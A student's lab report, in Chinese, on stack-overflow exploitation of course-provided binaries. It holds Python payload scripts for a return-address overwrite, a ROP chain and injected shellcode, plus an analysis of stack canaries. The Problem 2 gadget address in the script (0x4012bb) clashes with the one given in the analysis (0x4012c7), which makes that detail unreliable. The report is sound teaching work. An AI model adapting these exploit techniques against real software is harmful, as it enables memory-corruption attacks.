




# 栈溢出攻击实验

姓名：王松宸
学号：2024201594

## 题目解决思路

### Problem 1: 
- **分析**：
	- `main` 从文件读取最多 0x100 字节到栈上 `[rbp-0x110]`，随后以该缓冲区地址作为参数调用 `func`。
	- `func` 内栈帧大小 0x20，使用 `strcpy(dst=[rbp-0x8], src=rdi)` 将任意长字符串复制到 8 字节的局部缓冲区，导致覆盖 Saved RBP 与返回地址。偏移：从 `[rbp-0x8]` 到返回地址共 16 字节。
	- 存在可用目标函数 `func1`，其地址为 `0x401216`，会打印目标字符串并 `exit(0)`。
- **解决方案**：
  覆盖返回地址到 `func1`。

	```python
	# p1_payload.py
	import struct

	padding = b'A' * 16                 # 覆盖 dst[8] + saved RBP[8]
	ret = struct.pack('<Q', 0x401216)   # 跳转到 func1
	payload = padding + ret

	with open('ans1.txt', 'wb') as f:
			f.write(payload)
	```

- **结果**：
	- 运行：
		```bash
		python3 p1_payload.py
		./problem1 ans1.txt
		```
	- 终端输出：
		

### Problem 2:
- **分析**：
	- `main` 从文件读取到 `[rbp-0x120]`，随后以该地址作为参数调用 `func`。
	- `func` 使用 `memcpy(dst=[rbp-0x8], src=rdi, len=0x38)` 将 0x38 字节复制到仅 8 字节的局部缓冲区，造成溢出。偏移到返回地址仍为 16 字节。
	- 程序提供可用的 ROP 指令片段：在函数体内的地址 `0x4012c7` 处为 `pop rdi; ret`，可直接用作设置第一个参数。目标函数 `func2` 地址为 `0x401216`，当 `edi == 0x3f8` 时打印目标字符串并退出。
- **解决方案**：
	构造 ROP 链：`ret -> (0x4012c7: pop rdi; ret) -> 0x3f8 -> 0x401216 (func2)`。

	```python
	# p2_payload.py
	import struct

	padding = b'A' * 16
	pop_rdi = struct.pack('<Q', 0x4012bb)
	arg = struct.pack('<Q', 0x3f8)
	func2 = struct.pack('<Q', 0x401216)

	rop = pop_rdi + arg + func2
	# memcpy 拷贝 0x38 字节，补齐到长度
	payload = padding + rop + b'B' * (0x38 - len(padding) - len(rop))

	with open('ans2.txt', 'wb') as f:
			f.write(payload)
	```

- **结果**：
	- 运行：
		```bash
		python3 p2_payload.py
		./problem2 ans2.txt
		```
	- 终端输出：
		

### Problem 3: 
- **分析**：
	- `main` 读取文件到 `[rbp-0x110]` 后调用 `func`。`func` 将 `saved_rsp = rsp` 保存到全局，再将 0x40 字节复制到局部缓冲区 `[rbp-0x20]`（仅 0x20 大小），因此发生溢出。到返回地址的偏移为 `0x20（buffer）+ 8（saved RBP）= 0x28`（40）字节。
	- 提供跳板 `jmp_xs`（地址 `0x401334`），其逻辑为：读取 `saved_rsp`，加 0x10 后直接跳转。由于 `saved_rsp` 在 `func` 设为 `rbp-0x30`，`saved_rsp + 0x10 == rbp-0x20` 恰好指向我们的缓冲区起始处，可用于代码注入执行。
	- 目标函数 `func1`（地址 `0x401216`）当 `edi == 0x72` 时打印“幸运数字 114”的提示并退出。
- **解决方案**：
    - 在缓冲区首部注入简短 x86-64 机器码以设置参数并调用目标函数。
	- Shellcode：`mov edi, 0x72; mov rax, 0x401216; call rax`。
	- 覆盖返回地址为 `jmp_xs`，让执行跳回到缓冲区首部执行注入的机器码。

	```python
	# p3_payload.py
	import struct

	# x86-64 shellcode: mov edi, 0x72; mov rax, 0x401216; call rax
	shellcode = (
			b"\xbf\x72\x00\x00\x00" +
			b"\x48\xb8\x16\x12\x40\x00\x00\x00\x00\x00" +
			b"\xff\xd0"
	)

	# 到返回地址的偏移 40 字节：首 40 字节为代码/填充；第 41~48 字节写入跳板地址
	padding_len = 40 - len(shellcode)
	payload = shellcode + b"\x90" * padding_len + struct.pack('<Q', 0x401334)

	with open('ans3.txt', 'wb') as f:
			f.write(payload)
	```

- **结果（截图指引）**：
	- 运行：
		```bash
		chmod +x problem3
		python3 p3_payload.py
		./problem3 ans3.txt
		```
	- 终端输出：
		

### Problem 4: 
- **分析 Canary 机制**：
	- 可执行为 PIE，且启用了 Canary（`__stack_chk_fail` 绑定）。在多个函数（如 `caesar_decrypt`、`func1`、`func`）的栈帧开头：
		- 读取 `fs:0x28` 的栈保护值到局部变量（如 `[rbp-0x8]`）并保存；
		- 函数返回前对比当前 `fs:0x28` 与保存值，若不匹配则调用 `__stack_chk_fail` 直接异常退出。
		- 典型序列（反汇编特征）：`mov rax,QWORD PTR fs:0x28` → 保存到栈上 → 返回前 `sub rax,QWORD PTR fs:0x28` → 不等则 `call __stack_chk_fail@plt`。
	- 无需构造溢出，目标路径在 `func(int x)` 中：当 `x == 1` 且其初始备份值为 `0xffffffff`（-1）时，调用 `func1` 打印通关提示并退出。结合函数内的循环与比较，可直接通过输入触发。
- **解决方案**：运行程序并在最后一个输入处输入 `-1`（即 `0xffffffff`）。这将满足 `x == 1` 且备份值 `== 0xffffffff` 的分支，调用 `func1`。不需要编写 payload 文件。

- **结果**：
	- 运行：
		```bash
		./problem4
		# 按程序提示依次输入两段字符串后，最后一个整数输入 -1 即可
		```
	- 终端输出：
		

## 个人理解与实验总结

- Problem1/2/3 展示了三种经典利用：基础返回地址覆盖、在 NX 下的 ROP 传参、以及在可执行栈下的代码注入与跳板栈枢轴（stack pivot）。
- Problem4 强调了 Canary 的工作机制与从逻辑分支入手的“无溢出”通关思路，理解保护机制比强行攻击更重要。
- 编写 payload 时需严格使用二进制写入（小端序、不可见字节），并结合调用约定（x86-64 SysV：`rdi` 为第一个参数）。


## 参考资料

- 教材
- GPT 5.2 对于细节的解释与调试
